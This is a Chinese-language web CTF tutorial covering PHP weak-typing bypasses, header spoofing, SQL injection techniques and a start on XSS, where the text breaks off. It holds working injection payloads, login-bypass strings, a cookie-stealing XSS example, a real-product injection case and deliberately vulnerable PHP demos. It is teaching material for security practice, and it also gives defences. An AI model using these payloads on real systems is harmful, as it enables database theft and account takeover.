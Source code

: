 # Web In CTF

### 常见套路

- 爆破，包括md5、爆破随机数、验证码识别等

- 绕WAF，包括花式绕Mysql、绕文件读取关键词检测之类拦截

- 花式玩弄几个PHP特性，包括弱类型，strpos和===，反序列化 destruct、\0截断

- 各种找源码技巧，包括git、svn、xxx.php.swp、*www*.(zip|tar.gz|rar|7z)、xxx.php.bak、

- 文件上传，包括花式文件后缀 .php345 .inc .phtml .phpt .phps、各种文件内容检测<?php <? <% <script language=php>、花式解析漏洞

- Mysql类型差异，包括和PHP弱类型类似的特性,0x、0b、1e之类，varchar和integer相互转换

- open_basedir、disable_functions花式绕过技巧，包括dl、mail、imagick、bash漏洞、DirectoryIterator及各种二进制选手插足的方法

- 社工，包括花式查社工库、微博、QQ签名、whois

- windows特性，包括短文件名、IIS解析漏洞、NTFS文件系统通配符、::$DATA，冒号截断

- XSS，各种浏览器auditor绕过、富文本过滤黑白名单绕过、flash xss

- XXE，各种XML存在地方（rss/word/流媒体）、各种XXE利用方法（SSRF、文件读取）

- HTTP协议，花式IP伪造 X-Forwarded-For/X-Client-IP/X-Real-IP/CDN-Src-IP、花式改UA，花式藏FLAG、花式分析数据包


### 1. 信息泄露

#### 1.1 查看源代码

在线上CTF赛事的Web题目中，网页源代码是一个很重要的思路来源，按F12或右键查看源代码即可。

#### 1.2 robots.txt

爬虫协议，有时可以通过它看见一些重要的目录。

User-agent: *

Disallow: /images/

Disallow: /f1ag.txt/

Disallow: /tips.php

#### 1.3 注释

一般在右键源代码中，有时注释隐藏着重要的信息或者tips，或者出题者写下的思路。

#### 1.4 备份文件源码泄漏

​	常见备份文件后缀：

- .rar
- .zip
- .7z
- .tar.gz
- .bak
- .swp
- .txt
- .html
-  linux中可能以" ~ " 结尾
-  ng源码泄露，git源码泄露，DS_Store文件泄漏，网站备份压缩文件，SVN导致文件泄露，WEB-INF/web.xml泄露，CVS泄漏等，可参考以下资料：
- <https://www.cnblogs.com/xishaonian/p/7628153.html>
- <http://www.s2.sshz.org/post/source-code-leak/>
- <https://zhuanlan.zhihu.com/p/21296806>

#### 1.5 include漏洞

遇到php代码中有include($file)的，一般和 php://input或者php://filter有关，$file值如果是php://input，就要用post表单构造数据，如果是php://filter，就用下面的payload读取文件base64加密后的源代码，解密后查看源代码。

```php
php://filter/read=convert.base64-encoding/resource=文件名(如index.php)
php://filter/read=convert.base64-encode/resource=index.php
```



### 2. 抓包/HTTP

#### 2.1 GET&POST

Get和Post操作是传参的基本操作，也是CTF中很常见的常规操作。

GET：在url中提交参数，如/index.php?a=1

POST：可通过hackbar或抓包插入post数据提交

最直接的区别：

GET请求的参数是放在URL里的，POST请求参数是放在请求body里的。

#### 2.2 HTTP头部绕过姿势

- 如果提示需要本地ip或指定ip才能访问，则可在报文头部添加以下几种常用信息段：

  ```http
  X-Forwarded-For: 127.0.0.1
  X-Client-IP: 127.0.0.1
  Client-IP: 127.0.0.1
  (ip地址可以根据需要修改)
  ```

- 如果需要验证网页来源，如一定要从谷歌跳转过来的页面才允许访问，则可在报文头部添加：

  ```http
  Referer: https://www.google.com
  ```

- 如果网页需要验证cookie，我们可以在http头部加入：

  ```http
  Cookie: u = stupid;
  ```

- 除了以上几种常见的情况，还需根据具体情况来使用不同的操作



### 3. 源码审计

#### 3.1 php弱类型

##### "=="与"==="

```php
<?php
	$a == $b ;
	$a === $b ;
?>
    
//=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较
// == 在进行比较的时候，会先将字符串类型转化成相同，再比较
```

如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行

```php
<?php
var_dump("admin" == 0); //true
var_dump("1admin"== 1); //true
var_dump("admin1"== 1); //false
var_dump("admin1"== 0); //true
var_dump("0e123456"=="0e4456789"); //true 
?>  //上述代码可自行测试
    
 // 观察上述代码
 //"admin"==0 比较的时候，会将admin转化成数值，强制转化,由于admin是字符串，转化的结果是0自然和0相等
 //"1admin"==1 比较的时候会将1admin转化成数值,结果为1，而“admin1“==1 却等于错误，即是"admin1"被转化成了0,为什么呢？？
 //"0e123456"=="0e456789"相互比较的时候，会将0e这类字符串识别为科学技术法的数字，0的无论多少次方都是零，所以相等
```

php手册：

```c
/*
当一个字符串当作一个数值来取值，其结果和类型如下:如果该字符串没有包含'.','e','E'并且其数值值在整形的范围之内
该字符串被当作int来取值，其他所有情况下都被作为float来取值，该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为0。
*/
```

```php
<?php
$test=1 + "10.5"; // $test=11.5(float)
$test=1+"-1.3e3"; //$test=-1299(float)
$test=1+"bob-1.3e3";//$test=1(int)
$test=1+"2admin";//$test=3(int)
$test=1+"admin2";//$test=1(int)
?>
    
So that's why " "admin1"==1 =>False "
```

![](https://github.com/IvenWings/WebInCTF/tree/master/Web%20In%20CTF/images\php==.png)

##### md5绕过(Hash比较缺陷)

```php
<?php
if (isset($_GET['Username']) && isset($_GET['password'])) {
    $logined = true;
    $Username = $_GET['Username'];
    $password = $_GET['password'];

     if (!ctype_alpha($Username)) {$logined = false;}
     if (!is_numeric($password) ) {$logined = false;}
     if (md5($Username) != md5($password)) {$logined = false;}
     if ($logined){
    echo "successful";
      }else{
           echo "login failed!";
        }
    }
?>
```

大意是要输入一个字符串和数字类型，并且他们的md5值相等，就可以成功执行下一步语句 

介绍一批md5开头是0e的字符串

**0e在比较的时候会将其视作为科学计数法**，所以无论0e后面是什么，0的多少次方还是0。

键入**md5('240610708') == md5('QNKCDZO')**成功绕过！

收集md5开头是0e的字符串（来源于网络）：

```php
QNKCDZO
0e830400451993494058024219903391

s878926199a
0e545993274517709034328855841020
  
s155964671a
0e342768416822451524974117254469
  
s214587387a
0e848240448830537924465865611904
  
s214587387a
0e848240448830537924465865611904
  
s878926199a
0e545993274517709034328855841020
  
s1091221200a
0e940624217856561557816327384675
  
s1885207154a
0e509367213418206700842008763514
```

##### json绕过

```php
<?php
if (isset($_POST['message'])) {
    $message = json_decode($_POST['message']);
    $key ="*********";
    if ($message->key == $key) {
        echo "flag";
    } 
    else {
        echo "fail";
    }
 }
 else{
     echo "~~~~";
 }
?>
```

输入一个json类型的字符串，json_decode函数解成一个数组，判断数组中key的值是否等于 $key的值，但是$key的值我们不知道，**但是可以利用0=="admin"这种形式绕过**.

**最终payload **

````json
message={"key":0}
````

##### array_search is_array绕过

```php
<?php
if(!is_array($_GET['test'])){exit();}
$test=$_GET['test'];
for($i=0;$i<count($test);$i++){
    if($test[$i]==="admin"){
        echo "error";
        exit();
    }
    $test[$i]=intval($test[$i]);
}
if(array_search("admin",$test)===0){
    echo "flag";
}
else{
    echo "false";
}
?>
```

先判断传入的是不是数组，然后循环遍历数组中的每个值，并且数组中的每个值不能和admin相等，并且将每个值转化为int类型，再判断传入的数组是否有admin，有则返回flag。

```php
payload: test[]=0//可以绕过
```

官方手册对array_search的介绍

```php
mixed array_search ( mixed $needle , array $haystack [], bool $strict = false )
```

$needle，$haystack必需，$strict可选  函数判断$haystack中的值是存在$needle，存在则返回该值的键值 第三个参数默认为false，如果设置为true则会进行严格过滤。

```php
<?php
	$a=array(0,1);
	var_dump(array_search("admin",$a));  // int(0) ==> 返回键值0
	var_dump(array_search("1admin",$a)); // int(1) ==> 返回键值1
?>
```

array_search函数 类似于 == 也就是$a =="admin" 当然是$a=0  当然如果第三个参数为true则就不能绕过。

##### strcmp漏洞绕过 php -v <5.3

```php
<?php
    $password="***************"
     if(isset($_POST['password'])){

        if (strcmp($_POST['password'], $password) == 0) {
            echo "Right!!!login success";n
            exit();
        } else {
            echo "Wrong password..";
        }
 ?>
```

- strcmp是比较两个字符串，如果str1<str2 则返回<0 如果str1大于str2返回>0 如果两者相等 返回0
- 我们是不知道$password的值的，题目要求strcmp判断的接受的值和$password必需相等，strcmp传入的期望类型是字符串类型，如果传入的是个数组会怎么样呢
- 我们传入 password[]=xxx 可以绕过 是因为函数接受到了不符合的类型，将发生错误，但是还是判断其相等
- payload: password[]=xxx

##### switch绕过

```php
<?php
$a="4admin";
switch ($a) {
    case 1:
        echo "fail1";
        break;
    case 2:
        echo "fail2";
        break;
    case 3:
        echo "fail3";
        break;
    case 4:
        echo "sucess";  //结果输出success;
        break;
    default:
        echo "failall";
        break;
}
?>
```

原理和上面一样

##### is_numeric（）、int()强制类型转换

```php
<?php
show_source(__FILE__);
$flag = "xxxx";
if(isset($_GET['time'])){ 
        if(!is_numeric($_GET['time'])){ 
                echo 'The time must be number.'; 
        }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){ 
                        echo 'This time is too short.'; 
        }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){ 
                        echo 'This time is too long.'; 
        }else{ 
                sleep((int)$_GET['time']); 
                echo $flag; 
        } 
                echo '<hr>'; 
}
?>
```

知识点：

```
int()，不能正确转换的类型有十六进制型字符串、科学计数法型字符串
is_numeric()支持普通数字型字符串、科学记数法型字符串、部分支持十六进制0x型字符串
```

先判断是不是数字，然后再进行int长短的限定判断，也就是只能限定在5184000L<  time <  7776000

通过is_number() 能传入科学计数法，来进行绕过。

所以根据int不能处理科学计数法，而在is_number上能处理来解决。



### 4. SQL注入

#### 分类

##### 按照参数类型分类

按照参数类型可以分为两类:数值型、字符型

简单来说，就是：

```sql
数字型注入
加单引号 错误出异常
and 1 = 1 正常
and 1 = 2 异常

字符型注入
加单引号 错误出异常
and '1' = '1 正常
and '1' = '2 异常
```

###### 数值型

程序拼接的变量值没有被引号包裹。数值型注入是无视php的gpc或者addslashes、mysql_real_escape_string,mysql_escape_string或者其他对引号有转义函数的影响的。如果程序没有对关键字或者特殊符号过滤或者过滤不严(比如没有过滤union、select等关键字,可以使用联合注入,过滤了union、select等关键字,可以用盲注或者报错注入等方法)

eg:

```mysql
CREATE DATABASE IF NOT EXISTS `test`;
CREATE TABLE IF NOT EXISTS `news` (
  `tid` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `title` varchar(30) CHARACTER SET utf8 NOT NULL,
  `content` varchar(256) CHARACTER SET utf8 NOT NULL,
  PRIMARY KEY (`tid`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=3 ;

INSERT INTO `news` (`tid`, `title`, `content`) VALUES
(1, '新闻1', '这是第一篇文章'),
(2, '新闻2', '这是第二篇文章');
```



sqlinjection.php(test on mysql 5.5.38)

```php
<?php
session_start();
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
if (isset($_GET['id'])&&$_GET['id']){
    $id = $_GET['id'];
    $sql = "select * from news where id=$id";
    echo $sql;
    $result = mysql_query($sql, $conn) or die(mysql_error());
}
else{
    $sql = "SELECT * FROM news";
    echo $sql;
    $result = mysql_query($sql, $conn) or die(mysql_error()); //sql出错会报错，方便观察
}
?>
<!DOCTYPE html>
<html>
<head>
<title>新闻</title>
</head>
<body>
<?php
if (isset($result)){
    while($row = mysql_fetch_row($result, MYSQL_ASSOC)){
        echo "{$row['tid']}    {$row['title']}    {$row['content']}</br>";
    }
}
?>
</body>
</html>
```

如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://127.0.0.1/sqlinjection.php?id=1 union select 1,2,user() --
```

没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=1 or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and sleep(3) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and (length(database()))>10 --
```

__注__: 上面的测试是在对应的注入方式中关键字或者特殊符号没有被过滤的情况下,真实环境中也不知道到底过滤了什么或者是其他原因。在不能看到源码的而情况下,也只能fuzz(随机测试)。

__注__: 上面这些只是提供大致的思路。联合注入,报错注入,盲注以及其他注入方式有很多,还可以结合编码等或者其他大佬总结的什么方式绕过,需要用到的时候可以搜集资料详细的学习。

###### 字符型

程序拼接的变量被引号包裹。字符型注入是是受php的gpc或者addslashes、mysql_real_escape_string,mysql_escape_string或者其他对引号有转义的函数影响的。如果程序没有对引号和关键字或者特殊符号过滤或者过滤不严,可能会导致sql注入。

eg:

```php
$p = $_GET['p']; p = 100' and '1'='1
$sql = "select * from news where p = '3' and '1'='2'";
```

闭合单引号,如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://xxx/qqq.php?p=1' union select 1,2,user() --
```

闭合单引号,没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://xxx/qqq.php?p=1' or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://xxx/qqq.php?p=1' and sleep(5) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://xxx/qqq.php?p=1' and (length(database()))>10 --
```

__注__: 上面的测试是在对应的注入方式中关键字或者特殊符号没有被过滤的情况下,真实环境中也不知道到底过滤了什么或者是其他原因。在不能看到源码的而情况下,也只能fuzz(随机测试)

__注__: 上面这些只是提供大致的思路。联合注入,报错注入,盲注以及其他注入方式有很多,还可以结合编码等或者其他大佬总结的什么方式绕过,需要用到的时候可以搜集资料详细的学习。

##### 按数据库返回的结果分类

据数据库返回的结果,分为回显注入、报错注入、盲注。

###### 回显注入

可以直接在存在注入点的当前页面中获取返回结果,可以使用回显注入。

常见利用:

- union select

###### 报错注入

程序将数据库的返回错误信息直接显示在页面中。虽然没有返回数据库的查询结果,但是可以构造一些报错语句从错误信息中获取想要的结果。

常见利用:

- floor
- updatexml
- extractvalue

###### 盲注

程序后端屏蔽了数据库的错误信息，没有直接显示结果也没有报错信息，只能通过数据库的逻辑和延时函数来判断注入的结果。

- bool盲注(based boolean)
  - 如果测试时发现页面有变化,可以尝试使用bool盲注
- 时间盲注(based time)
  - 如果测试时页面无变化,但是通过sleep发现页面存在延迟,可以尝试使用时间盲注

利用:

- Length()、Substr()、Ascii()、sleep()、if(expr1,expr2,expr3)等结合使用

##### 其他特殊注入

###### 宽字节注入

形成条件:

- 开启了gpc或使用addslashes、mysql_real_escape_string,mysql_escape_string等对引号转义的函数
- 使用了`SET NAMES 多字节编码`或者`set character_set_client=多字节编码`指令,这里多字节编码低位的范围需要覆盖0x5C才能导致注入。我们最常见的是gbk编码。

假如代码中设置的是GBK编码(mysql那端表或者字段设置的编码无影响,会自动转换),这时只要引入宽字节高位编码吃掉`\`(%5c),就导致了宽字节注入的发生。

可以参考[https://lyiang.wordpress.com/2015/06/09/sql注入：宽字节注入（gbk双字节绕过）/](https://lyiang.wordpress.com/2015/06/09/sql注入：宽字节注入（gbk双字节绕过）/)

eg:

```mysql
CREATE DATABASE IF NOT EXISTS `test`;
CREATE TABLE IF NOT EXISTS `news` (
  `tid` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `title` varchar(30) CHARACTER SET utf8 NOT NULL,
  `content` varchar(256) CHARACTER SET utf8 NOT NULL,
  PRIMARY KEY (`tid`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=3 ;

INSERT INTO `news` (`tid`, `title`, `content`) VALUES
(1, '新闻1', '这是第一篇文章'),
(2, '新闻2', '这是第二篇文章');
```

sqlgbkinjection.php(test on mysql 5.5.38)

```php
<?php
//连接数据库部分，注意使用了gbk编码，把数据库信息填写进去
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_query("SET NAMES 'gbk'");
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
//执行sql语句
$id = isset($_GET['id']) ? addslashes($_GET['id']) : 1;
$sql = "SELECT * FROM news WHERE tid='{$id}'";
$result = mysql_query($sql, $conn) or die(mysql_error()); //sql出错会报错，方便观察
?>
<!DOCTYPE html>
<html>
<head>
<meta charset="gbk" />
<title>新闻</title>
</head>
<body>
<?php
$row = mysql_fetch_array($result, MYSQL_ASSOC);
echo "<h2>{$row['title']}</h2><p>{$row['content']}<p>\n";
mysql_free_result($result);
?>
</body>
</html>
```

测试:
`http://127.0.0.1/sqlgbkinjection.php?id=10%df%27%20union%20select%201,user(),database()%23`

###### 二次注入

首先将构造好的利用代码写入网站保存,再第二次或多次请求后调用攻击代码触发或者修改配置触发的漏洞。



比如sql二次注入:

在第一次进行数据库插入数据的时候，仅仅只是使用了 addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。

在将数据存入到了数据库中之后，开发者就认为数据是可信的。在下一次进行需要进行查询的时候，直接从数据库中取出了脏数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入。比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库中；然后在下一次使用中在拼凑的过程中，就形成了二次注入。

eg:
数据表使用的是上面news表

secondaryinjection.php(test on mysql 5.5.38)

```php
<?php
error_reporting(0);
session_start();
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
if (isset($_GET['title'])&&isset($_GET['tid'])&&isset($_GET['content'])){
    $tid = intval($_GET['tid']);
    $title = $_GET['title'];
    $content = $_GET['content'];
    if (!get_magic_quotes_gpc()){
        $title = addslashes($title);
        $content = addslashes($_GET['content']);
    }
    $sql = "INSERT INTO news(tid,title,content) VALUES ($tid,'$title','$content')";
    mysql_query($sql, $conn) or die(mysql_error());

    $sql = "select * from news where tid=$tid";
    echo $sql;
    $results = mysql_query($sql,$conn);
    $row = mysql_fetch_array($results);
    $_SESSION['tid'] = $row['tid'];
    $_SESSION['title'] = $row['title'];
    echo $_SESSION['title'];
}
elseif (isset($_SESSION['title'])){
    $title = $_SESSION['title'];
    $sql = "select * from news where title='$title'";
    echo $sql.'<br>';
    $results = mysql_query($sql, $conn) or die(mysql_error());
    while ($row = mysql_fetch_array($results))
    {
        echo $row['title'].'    '.$row['content'];
        echo '<br>';
    }
}
else{
    echo 'Try create a new';
}
?>
```

`http://127.0.0.1/secondaryinjection.php?tid=6&title=aaa%27 union select 1,user(),3%23&content=qqqqq`

`http://127.0.0.1/secondaryinjection.php`

#### 检测判断sql注入：

```sql
id=1' and 1=0 //报错
id=1' and 1=1 //正确
```

#### 判断什么类型注入：

```sql
id=1'
id=1"
```

可加 “\” 等符号，构造报错，从报错回显中观察是什么类型的错误，如：

```sql
SELECT * from table_name WHERE id='our input'

SELECT * from table_name WHERE id=our input

SELECT * from table_name WHERE id=('out input')

SELECT * from table_name WHERE id=("our input")
```

![](https://github.com/IvenWings/WebInCTF/tree/master/Web%20In%20CTF/images\sql.png)

原理如上

#### 数据库查询版本

- Mssql: select @@version
- Mysql: select version（）/select @@version
- oracle: select banner from ￥version
- Postgresql: select version（）

#### 判断过滤了哪些字符？

采用异或注入。
在id=1后面输入 '(0)'
发现不出错，那就将0换成1=1
如果出错，那就是成功了

如果括号里面的判断是假的，那么页面就会显示正确
那么同理，
如果修改里面的内容为length(‘union’)!=0
如果页面显示正确，那就证明length(‘union’)==0的，也就是union被过滤了

#### 判断字段长度

- order by 数字 可以判断字段的个数
- 也可以用猜字段 union select 1，2，3

```sql
id=1' order by 1
id=1' order by 2
...
id=1' order by n
```

如果n出现了错误那么共有n-1列，union查询必须列数量对齐，也就是说union select 1,2,...,n-1 from ...

#### 判断字段回显位置

在链接后面添加语句`union select 1,2,3,4,5,6,7,8,9,10,11#`进行联合查询（联合查询时记得把前面的查询为空）来暴露可查询的字段号。

#### 判断数据库注入

利用内置函数暴数据库信息
version()版本；database()数据库；user()用户；
不用猜解可用字段暴数据库信息(有些网站不适用):

```sql
and 1=2 union all select version()
and 1=2 union all select database()
and 1=2 union all select user()
操作系统信息：and 1=2 union all select @@global.version_compile_os from mysql.user
数据库权限：and ord(mid(user(),1,1))=114 返回正常说明为root
```

#### 绕过登陆验证

- admin’ –
- admin’ #
- admin’/*
- ’ or 1=1–
- ’ or 1=1#
- ’ or 1=1/*
- ') or ‘1’='1–
- ') or (‘1’='1–

#### SQL注入常见函数

- group_concat函数 可以把查询的内容组合成一个字符串
- load_file(file name ) 读取文件并将文件按字符串返回
- left（string，length）返回最左边指定的字符数：
- left（database（），1）>‘s’ (猜名字)
- length（）判断长度
- length（database（）>5
- substr（a，b，c）从字符串a中截取 b到c长度
- ascii（）将某个字符转为ascii值
- ascii（substr（user（），1，1））=101#
- mid（（a，b，c）从字符串a中截取 b到c位置（可以用来猜数据库名 ）

#### 联合爆库：

这里假设有3列：

为了让联合注入工作，首先要知道数据库中的表名，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() --+ //--+是把语句闭合后注释掉后面的语句
```

有时程序可能不会打印出所有的行，这时我们就得使用关键字limit一条条进行查询，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1 --+
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1 --+
```

或者可以用group_concat():

```sql
id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

假设有'users'表

现在看其中的一个表，为了提取其信息，键入：

```sql
id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

注意，我们使用'column'替换了'table'，因为我们想要的是一个表的列信息
假设有'username'，'password'，'flag'列，我们可以键入：

```sql
id=-1' union select 1,group_concat(username),3 from users --+
id=-1' union select 1,group_concat(username),group_concat(password) from users --+
id=-1' union select 1,flag,3 from users --+
```

即可按需查询所需要的信息。



#### 报错注入：

```sql
- floor （SELECT user()可修改）

- OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)–+
  
- ExtractValue(有长度限制,最长32位) （select @@version可修改）
  
  and extractvalue(1, concat(0x7e, (select @@version),0x7e))–+

- UpdateXml(有长度限制,最长32位) （SELECT @@version可修改）

  and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)–+

- NAME_CONST(适用于低版本，不太好用)

- and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)–+

- Error based Double Query Injection

- or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1–+

- exp(5.5.5以上) （select user()可修改）

- and (select exp(~(select * from(select user())x)))–+

- floor(Mysql): and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x 
from information_schema.tables group by x)a);

- Extractvalue(Mysql): and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

- Updatexml(Mysql): and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

- EXP: and exp(~(select * from(select user())a));

- UTL INADDR. get host address(Oracle): and 1=utl inaddrget host address(select bannerO from sys.v_$version where rownum=1))

- multipoint(Mysql)：and multipoint((select * from(select * from(select user())a)b));

- polygon(Mysql)：and polygon((select * from(select * from(select user())a)b));

- multipolygon(Mysql)：and multipolygon((select * from(select * from(select 
user())a)b));

- linestring(Mysql)：and linestring((select * from(select * from(select user())a)b));

- multilinestring(Mysql)：and multilinestring((select * from(select * from(select user())a)b));
```



#### bool盲注

- 盲注的时候一定注意，MySQL4之后大小写不敏感，可使用binary()函数使大小写敏感。

- ##### 布尔条件构造

  ```sql
  //正常情况
   'or bool#
   true'and bool#
       
   //不使用空格、注释
   'or(bool)='1
   true'and(bool)='1
       
   //不使用or、and、注释
   '^!(bool)='1
   '=(bool)='
   '||(bool)='1
   true'%26%26(bool)='1
   '=if((bool),1,0)='0
       
   //不使用等号、空格、注释
   'or(bool)<>'0
   'or((bool)in(1))or'0
       
   //其他
   or (case when (bool) then 1 else 0 end)
  ```

- 有时候where字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz

  ```sql
   1' or (bool) or '1'='1
   1%' and (bool) or 1=1 and '1'='1
  ```

- ##### 构造逻辑判断

  - 逻辑判断基本就那些函数：

    ```
      left(user(),1)>'r'  
      right(user(),1)>'r'  
      substr(user(),1,1)='r'  
      mid(user(),1,1)='r' 
          
      //不使用逗号 
      user() regexp '^[a-z]'
      user() like 'root%'
      POSITION('root' in user())
      mid(user() from 1 for 1)='r'
      mid(user() from 1)='r'
    ```

- ##### 利用order by盲注

  ```sql
  mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
  +----+--------------+------------------------
  | id |    username  | password                   
  +----+--------------+------------------------
  |  1 | 2            | 5                         
  |  1 | admin        | 51b7a76d51e70b419f60d34 
  +----+----------- --+------------------------
  2 rows in set (0.00 sec)
      
  mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
  +-----+-----------+--------------------------
  |id   | username  | password                  
  +-----+-----------+--------------------------
  |  1  | admin     |51b7a76d51e70b419f60d3
  |  1  |    2      | 6                          
  +-----+-----------+--------------------------
  2 rows in set (0.01 sec)
  ```

#### 延时盲注

- 相对于bool盲注，就是把返回值0和1改为是否执行延时，能用其他方法就不使用延时。
- 一般格式if((bool),sleep(3),0)和or (case when (bool) then sleep(3) else 0 end)
- 两个函数：
- BENCHMARK(100000,MD5(1))
- sleep(5)
- BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源，推荐使用sleep()。

#### Mysql注释符

```sql
1. -- -
2. /* .... */
3. #
4. `
5. ;%00 
```

#### GBK绕过注入

- 在分号前加%df%27
- 示例：id=1%df%27 union select 1.2–+

### 实例

以HDWiki v6.0 UTF8-20170209 前台sql注入为例，index.php?doc-create创建词条可以通过`aaaa……aa'` 81个字符，经过转义变成`aaaa……aa\'`82个字符，经过截断变成`aaaa……aa\`81个字符，将sql语句中的单引号转义，并且后面一个参数用户可控，产生了SQL注入

`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'`

`，concat(user(),0x7c,database(),0x7c,version()),1,1,#`

### 漏洞防范

#### gpc/rutime魔术引号

- magic_quotes_gpc负责对GET、POST、COOKIE的值进行过滤
- magic_quotes_runtime对从数据库或者文件中获取的数据进行过滤。上面的二次注入可以使用这个函数对特殊符号转义

开启这两个选项也只能防御部分SQL注入。因为他们只对`'`、`"`、`\`、`空字符`进行转义,在int型注入上没有太大作用。

#### 过滤函数和类

##### addslashes函数

addslashes也是对`'`、`"`、`\`、`空字符`进行转义，大多数程序使用它实在程序入口，判断如果没有没有开启gpc,则使用它对参数进行过滤,不过他的参数必须是string,所以如果参数是数组类型,那么必须使用此函数对数组递归过滤。

##### mysql\_[real]\_escape\_string

mysql_escape_string和mysql_real_escape_string函数都是对字符串进行过滤,在php4.0.3以上版本才有这两个函数,`\x00`、`\n`、`\r`、`\`、`'`、`"`、`\x1a`。不同在于mysql_real_escape_string接受的是一个连接句柄并根据当前字符集转义字符串,所以最好使用mysql_real_escape_string。

mysql_escape_string

```php
$item = "Zak's Laptop";
$escaped_item = mysql_escape_string($item);
```

mysql_real_escape_string

```php
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
$item = "Zak's Laptop";
$escaped_item = mysql_real_escape_string($item,$conn);
```

##### intval

将字符转换成数值

eg:

```php
$id = '1 union select';
$id = intval($id);
echo $id;
```

#### PDO预编译方式

使用PDO方式基本可以防止sql注入,原因是因为有两次传输，前一次传一个sql模板，第二次传查询参数，会把第二步传入的参数只做查询参数处理，不做语义解释，这样注入的条件就算执行了，也不会得到查询结果。但是还是存在特殊情况会在使用了PDO方式也会存在注入,可以参考[https://stackoverflow.com/questions/134099/are-pdo-prepared-statements-sufficient-to-prevent-sql-injection/12202218#12202218](https://stackoverflow.com/questions/134099/are-pdo-prepared-statements-sufficient-to-prevent-sql-injection/12202218#12202218)

eg:

```php
try {
$pdo = new PDO('mysql:host=localhost;dbname=test', 'root', 'root');
} catch (PDOException $e) {
echo $e->getMessage();
}
$sta = $pdo->prepare('select * from table where name = ?'); //准备 SQL 模版，其中 ? 代表一个参数。
$sta->execute(array('name1')); //通过数组设置参数，执行 SQL 模版
```

## 5.XSS漏洞(跨站脚本攻击)

### 成因与危害

参数没有被过滤或严格过滤,且参数传入到了输出函数,被输出到了页面。常出现在文章发表、评论回复、留言、资料修改等地方。

可能产生如下危害:

- 窃取cookie
- 修改页面进行钓鱼
- 前端能做的事情,xss都能做到

### 分类

反射型、存储型、dom型

#### 反射型

经过了后端,但是没有经过经过数据库。

数据流向: 浏览器 -> 后端 -> 浏览器

eg:

reflectxss.php(test on mysql 5.5.38)

```php
XSS反射演示
<form action="" method="get">
    <input type="text" name="xss"/>
    <input type="submit" value="test"/>
</form>
<?php
session_start();
$xss = @$_GET['xss'];
if($xss!==null){
    echo $xss;
}
?>
```

`http://127.0.0.1/reflectxss.php?xss=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E`

恶意利用(以获取用户cookie为例):
比如`http://xxx.com/xxx.php?aaa=攻击者编写的获取用户cookie的代码`存在反射型xss,
攻击者可以把构造好的链接发到论坛或者其他方式诱导用户点击,如果用户点击了链接,那么用户的cookie会被攻击者的服务器收到,攻击者可以利用用户的cookie登陆目标网站

#### 存储型

数据经过了后端,经过了数据库。

数据流向: 浏览器-> 后端-> 数据库-> 后端-> 浏览器

eg:

```mysql
create table xss (
    id int(10) unsigned NOT NULL AUTO_INCREMENT,
